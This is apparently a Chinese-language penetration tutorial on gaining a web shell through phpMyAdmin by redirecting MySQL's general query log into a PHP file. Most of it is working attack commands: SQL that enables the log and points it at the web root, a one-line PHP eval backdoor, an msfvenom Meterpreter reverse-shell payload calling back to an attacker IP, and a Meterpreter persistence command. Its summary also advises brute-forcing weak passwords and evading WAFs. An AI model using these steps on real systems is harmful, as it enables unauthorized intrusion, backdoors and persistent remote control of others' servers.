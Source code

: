 # 利用phpmyadmin日志getshell

### 原理：

mysql 5.0版本以上会创建日志文件，全局变量genernal_log控制日志保存状态，开启它可以记录用户输入的每条命令；genernal_log_file变量值是保存日志文件的路径。

开启genernal_log后把genernal_log_file的值改为自定义的一个php文件中，然后通过log日志写入一句话后门，会被记录将其写入文件，即可getshell，需要有可读可写权限



### 1. 改变日志状态和日志文件及路径

```SQL
show variables like 'general%';	//查看日志状态
show variables like 'secure_file_priv'	//查看是否有写权限
select @@datadir;	//获取网站的绝对路径
set global general_log = "ON";
set global general_log_file='C:/phpstudy/WWW/shell.php';
set global general_log_file='/var/www/html/shell.php';
```

### 2. 查询一句话后门

```SQL
select '<?php eval($_POST[cmd]);?>';
```

### 3. 连接一句话

```http
192.168.1.12/shell.php
```

### 4. 提权及后渗透

用msf生成反弹木马，上传到目标服务器执行

```msf
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -f exe > shell.exe
```

### 5. 建立后门

```msf
run persistence -S -U -X -i 5 -p 8888 -r 192.168.1.12
```



### 总结：

1. 通过爆破等方法找到phpmyadmin登录页面，使用弱口令爆破找到密码
2. 有可读可写权限
3. into outfile已被禁用，有WAF会被拦截
4. 采用SQL查询免杀shell的语句

